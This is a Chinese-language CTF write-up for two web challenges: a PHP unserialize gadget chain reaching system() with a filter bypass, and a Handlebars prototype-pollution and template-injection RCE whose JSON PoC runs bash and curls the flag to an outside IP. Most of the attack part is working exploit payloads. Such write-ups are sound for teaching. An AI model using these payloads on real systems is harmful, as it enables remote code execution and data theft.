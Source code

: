 ## Web
## PHP_unserialize_pro
源码
```php
<?php
    error_reporting(0);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }
 
    class G00d{
        public $shell;
        public $cmd;
        public function __invoke(){
            $shell = $this->shell;
            $cmd = $this->cmd;
            if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){
                die("U R A BAD GUY");
            }
            eval($shell($cmd));
        }
    }
 
    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }
 
    if(isset($_GET['data']))
        unserialize($_GET['data']);
    else
        highlight_file(__FILE__);
?>
```

思路
`__construct() -> __destruct() -> __toSrting() -> __invoke()`

exp
```PHP
<?php
	class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }
 
    class G00d{
        public $shell;
        public $cmd;
        public function __invoke(){
            $shell = $this->shell;
            $cmd = $this->cmd;
            if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){
                die("U R A BAD GUY");
            }
            eval($shell($cmd));
        }
    }
 
    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }

    $a = new Welcome();
    $a->name = "A_G00d_H4ck3r";
    $a->arg = new H4ck3r();
    $a->arg->func = new G00d();
    $a->arg->func->shell = "system";
    $a->arg->func->cmd = "dir";
    print(serialize($a));
```

more支撑`[]`通配符搜索就可以绕过

`more /[e-i]1[9-b][f-h]`
### meow-blog

 原型链污染，获取admin权限
 
![](attachments/Pasted%20image%2020231017203527.png)

`{"username":"wum0nster","password":"123","submit":[{"__proto__":{"user":{"id":1,"username":"admin","style":"wum0nster"}}},"1"]}`

模板注入漏洞点

![](attachments/Pasted%20image%2020231018083914.png)

![](attachments/Pasted%20image%2020231018084420.png)

[Prototype Pollution in handlebars · CVE-2021-23383 · GitHub Advisory Database](https://github.com/advisories/GHSA-765h-qjxv-5f44)

[Remote Code Execution (RCE) in handlebars | CVE-2021-23369 | Snyk](https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-1056767)

```js
<script src="https://cdn.jsdelivr.net/npm/handlebars@latest/dist/handlebars.js"></script> 
<script> 
// compile the template 
var s = ` 
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push "alert('Vulnerable Handlebars JS when compiling in strict mode');")}} 
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
`; 
var template = Handlebars.compile(s, { 
strict: true 
}); 
// execute the compiled template and print the output to the console console.log(template({})); 
</script>
```

[运行时参数 | Handlebars中文文档 | Handlebars中文网 (handlebarsjs.cn)](https://www.handlebarsjs.cn/api-reference/runtime-options.html#%E6%8E%A7%E5%88%B6%E5%8E%9F%E5%9E%8B%E8%AE%BF%E9%97%AE%E7%9A%84%E9%80%89%E9%A1%B9)

在题目环境中升级到了4.7.7，禁用原本的一些键

![](attachments/Pasted%20image%2020231018093750.png)



对应函数[handlebars.js/lib/handlebars/internal/proto-access.js at 1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89 · handlebars-lang/handlebars.js (github.com)](https://github.com/handlebars-lang/handlebars.js/blob/1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89/lib/handlebars/internal/proto-access.js#L27)

```JS
export function createProtoAccessControl(runtimeOptions) {
  let defaultMethodWhiteList = Object.create(null);
  defaultMethodWhiteList['constructor'] = false;
  defaultMethodWhiteList['__defineGetter__'] = false;
  defaultMethodWhiteList['__defineSetter__'] = false;
  defaultMethodWhiteList['__lookupGetter__'] = false;

  let defaultPropertyWhiteList = Object.create(null);
  // eslint-disable-next-line no-proto
  defaultPropertyWhiteList['__proto__'] = false;

  return {
    properties: {
      whitelist: createNewLookupObject(
        defaultPropertyWhiteList,
        runtimeOptions.allowedProtoProperties
      ),
      defaultValue: runtimeOptions.allowProtoPropertiesByDefault,
    },
    methods: {
      whitelist: createNewLookupObject(
        defaultMethodWhiteList,
        runtimeOptions.allowedProtoMethods
      ),
      defaultValue: runtimeOptions.allowProtoMethodsByDefault,
    },
  };
}
```

对`allowedProtoMethods`做污染设置为true

```JS
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push \"eval('process.binding(\\'spawn_sync\\').spawn({file:\\'/bin/bash\\',args: [\\'/bin/bash\\',\\'-c\\',\\'curl http://49.232.206.37:23456/`cat /flag`\\'],stdio: [{type:\\'pipe\\',readable:!0,writable:!1},{type:\\'pipe\\',readable:!1,writable:!0},{type:\\'pipe\\',readable:!1,writable:!0}]});');\")}}
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
```

poc

```json
{"submit":[{"__proto__":{"user":{"id":"c23d123d-e123-444e-a69f-9e69b285473e","username":"admin"},"allowedProtoMethods":{"__lookupGetter__":true,"constructor":true,"valueOf":true}}},"1"],"style":"{{#with (__lookupGetter__ \"__proto__\")}}{{#with (./constructor.getOwnPropertyDescriptor . \"valueOf\")}}{{#with ../constructor.prototype}}{{../../constructor.defineProperty . \"hasOwnProperty\" ..}}{{/with}}{{/with}}{{/with}}{{#with \"constructor\"}}{{#with split}}{{pop (push \"eval('process.binding(\\'spawn_sync\\').spawn({file:\\'/bin/bash\\',args: [\\'/bin/bash\\',\\'-c\\',\\'curl http://49.232.206.37:23456/`cat /flag`\\'],stdio: [{type:\\'pipe\\',readable:!0,writable:!1},{type:\\'pipe\\',readable:!1,writable:!0},{type:\\'pipe\\',readable:!1,writable:!0}]});');\")}}{{#with .}}{{#with (concat (lookup join (slice 0 1)))}}{{#each (slice 2 3)}}{{#with (apply 0 ../..)}}{{.}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}}"}
```


![](attachments/Pasted%20image%2020231018110925.png)